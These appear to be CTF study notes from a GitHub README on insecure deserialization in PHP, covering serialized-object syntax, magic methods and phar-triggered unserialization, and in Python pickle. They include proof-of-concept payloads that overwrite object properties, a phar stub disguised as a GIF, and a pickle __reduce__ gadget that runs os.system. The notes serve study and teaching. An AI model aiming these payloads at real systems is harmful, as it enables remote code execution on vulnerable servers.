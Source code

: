 # Unserialization
Vulnerability of unserialization exists in many program languages，please remember the basic concept：**serialize：convert object to the string; unserialize：convert string to the object**.  
*  [PHP Unserialization](#php-unserialization)  
   *  [Serialization vs Unserialization](#serialization-vs-unserialization)  
   *  [Magic Function](#magic-function)  
   *  [Exploit](#exploit)    
   *  [Reference](#reference)  
   *  [With phar](#with-phar)  
*  [Python Unserialization](#python-unserialization)  
   *  [Magic Function](#magic-function)  
   *  [Exploit](#exploit)  
   *  [Reference](#reference)
  

# PHP Unserialization
It's always used in Cookie and session. If the parameter of `unserialize()` can be controlled，we can build up a payload to overwrite specific variable or change control flow.  

## Serialization vs Unserialization
Basically speaking：  
`serialize()`: convert object to string
`unserialize()`: convert string to object  
```php
class pwnch(){
  $test = "helloworld";
  function __wakeup(){
      echo "hello again";
  }
}
echo serialize(new pwnch());   // OUTPUT: O:5:"pwnch":1:{s:4:"test";s:10:"helloworld";}
```
OUTPUT: `O` means object, `5` is the length of object name. `1` is the size of attribute, `4` is the length of variable name, format is `key:value`.  

Type | Syntax  
------------ | -------------  
String | `s:size:value;`  
Integer | `i:value;`  
Boolean | `b:value;`  
NULL | `N;`  
Array | `a:size:{key-type:key-value;value-type:value-value;}`  
Object | `O:strlen(Object):class-name:object size:`  
------------ | -------------  
public | `{s:4:"test"}`  
private | `{s:11:"%00pwnch%00test"}`  
protected | `{s:7:"%00*%00test"}`  

## Magic Function
* `construct()`: called when new a object，but won't be called when unserialize()  
* `destruct()`: called when destroy a object，also be called when unserialize  
* `__sleep()`: run at the first moment of serialize  
* `__wakeup()`: run at the first moment of unserialize  

## Exploit
payload
```php
unserialize($_GET[1]);

1 = O:5:"pwnch":1:{s:4:"test";s:length of your code:"code you want to insert";}

// Here you can overwrite the variable test，remember to modify the lenght of your code  

// find your own gadget  

1 = O:5:"pwnch":1:{s:4:"test";O:6:"pwnch2":1{s:5:"test2";s:10:"echo `ls`;";}}

// In second payload, I overwrite the constructor in variable test with pwnch2，then overwrite the variable test2 in pwnch2 because I need the function in pwn2!
```
Tools:  
* [php online tool](https://1024tools.com/unserialize)

## Reference
1. [chybeta's blog](https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)  

## With phar
Sam Thomas published a new way to trigger a unserialization without use of `unserialize()` in blackhat 2018. This can be done with `php://phar`.  
Trace to the kernel of PHP, we can find that `meta-data` would be unserialized when library function use `phar://` to parse the phar document. Therefore, we can build up a malicious phar and deliver to file functions such as `file_get_contents()` or `file_exists()`.  
1. We might not be able to upload the phar file to the website directly. However, we can add other header to forge it.  
```php
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");  // forge to gif

$phar->setMetadata($o);   // here you can control the parameter to trigger vul of unserialization
```  
2. Trace any function: whether it calls file open function in the bottom side, then whether we can control its parameter. What's more interesting, it even can be used to make a DOS attack.  

## Reference
1. [Blackhat议题解读 | 利用 phar 拓展 php 反序列化漏洞攻击面](https://www.anquanke.com/post/id/157657)  
2. [blackhat议题深入 | phar反序列化](https://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247485159&idx=1&sn=50b2e94d2d6fc5f69c540113ae9b3f1c&chksm=e89e2e3fdfe9a729869444aa593e97b52970add524b219553f646e8af2aec06e25e8678e7dde&mpshare=1&scene=23&srcid=0822QPN3ZXccNvKuWTQoahLi#rd)

# Python unserialization
[關於模塊的細節我相當推這篇文章](https://www.jianshu.com/p/5f936abf31f7?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)  
Functions **pickle** and **cPickle** also can realize the function of serialization  
1. `cPickle.dumps`: object -> string  
2. `cPickle.loads`: string -> object  
You can also use dump/load，but I won't talk about it here.  
vulnerability of unserialization in python is more serious than in php，we can use this module to build RCE！  

## Magic Function
`reduce` will change the target of unserialization，therefore the parameter is controllable
```python
// magic function: reduce
import cPickle
import os

class People(object):

    def __init__(self,username,password):
        self.username = username
        self.password = password

    def __reduce__(self):
        return (os.system, ('ls',))

michael = People('admin','password')
print cPickle.loads(cPickle.dumps(michael))
// Output: ls (the result of ls
```  
We need `cPickle.loads` to trigger the vulnerability. His type of parameter is string，therefore we cannot use `cPickle.loads(michael)`，I use dumps to convert it inside.  

## Exploit
It's always combined with the web in CTF，such as `<?php system("echo $data | python vul.py")?>`. There might be a IO in `vul.py`，so I should deliver my data to the object with **magic function** which has been converted to string.  

## Reference
1. [Python反序列化小记](https://www.jianshu.com/p/061d2c594d97)  
2. [序列化和反序列化模块pickle介绍 | Python库](https://www.jianshu.com/p/5f936abf31f7?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)
